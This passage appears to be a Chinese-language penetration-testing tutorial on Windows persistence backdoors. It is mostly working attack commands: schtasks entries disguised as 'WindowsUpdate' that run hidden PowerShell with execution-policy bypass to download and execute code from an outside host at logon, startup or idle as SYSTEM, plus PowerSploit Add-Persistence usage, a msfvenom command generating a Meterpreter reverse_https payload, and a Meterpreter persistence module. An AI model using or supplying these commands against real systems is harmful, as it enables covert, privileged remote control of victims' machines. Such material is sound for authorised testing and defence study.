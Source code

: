 ```powershell
schtasks /create /tn WindowsUpdate /tr "C:\Windows\System32\Powershell.exe -WindowStyle Hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.140.128:8080/'''))'" /sc onlogon /ru System
```

如果攻击者在目标系统中创建一个计划任务，就会加载生成的后门：

1. 用户登录

   ```powershell
   schtasks /create /tn WindowsUpdate /tr "C:\Windows\System32\Powershell.exe -WindowStyle Hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.140.128:8080/'''))'" /sc onlogon /ru System
   ```

2. 系统启动

   ```powershell
   schtasks /create /tn WindowsUpdate /tr "C:\Windows\System32\powershell.exe -WindowStyle Hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.140.128:8080/'''))'" /sc onstart /ru System
   ```

3. 系统空闲

   ```powershell
   schtasks /create /tn WindowsUpdate /tr "C:\Windows\System32\powershell.exe -WindowStyle Hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.140.128:8080/'''))'" /sc onidle /i 1
   ```

但如果此时目标系统中安装了防护软件，可能弹出警告。

##### PowerSploit中模拟计划任务后门

将PowerSploit中的`Persistence.psm1`模块上传，然后使用：

```powershell
Import-Module ./Persistence.psm1

$ElevatedOptions = New-ElevatedPersistenceOption -ScheduledTask -OnIdle
$UserOptions = New-UserPersistenceOption -ScheduledTask -OnIdle
Add-Persistence -FilePath ./shuteer.ps1 -ElevatedPersistenceOption
$ElevatedOptions -UserPersistenceOption $UserOptions -Verbose
```

在上面的命令中，`shuteer.ps1`是计划任务要执行的Payload，可以使用`msfvenom`生成：

```powershell
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.140.128 lport=443 -f psh-reflection -o shuteer.ps1
```

#### Meterpreter后门

使用：

```powershell
run post/windows/manage/persistence_exe [-arg]
```
